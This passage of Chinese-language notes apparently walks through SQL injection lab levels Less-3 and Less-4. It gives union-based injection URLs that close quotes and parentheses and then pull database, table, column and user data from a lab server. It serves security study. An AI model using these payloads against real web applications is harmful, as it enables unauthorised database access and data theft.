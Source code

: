 ```sql
#获取数据库名
http://8.137.60.154:8082/Less-3/?id=-1')union select 1,2,database() --+

#获取表名
http://8.137.60.154:8082/Less-3/?id=-1')union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+

#获取uagents字段名
http://8.137.60.154:8082/Less-3/?id=-1')union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name="uagents"--+

#获取数据
http://8.137.60.154:8082/Less-3/?id=-1')union select 1,2,group_concat(id,uagent,ip_address,username) from security.uagents --+
```

****

### Less-4(联合查询->`")`闭合)

```sql
#判断回显点
http://8.137.60.154:8082/Less-4/?id=1"
```

![image-20241007015912114](./assets/image-20241007015912114.png)

```sql
#显示回显
http://8.137.60.154:8082/Less-4/?id=-1")union select 1,2,3 --+
```

![image-20241007020030297](./assets/image-20241007020030297.png)
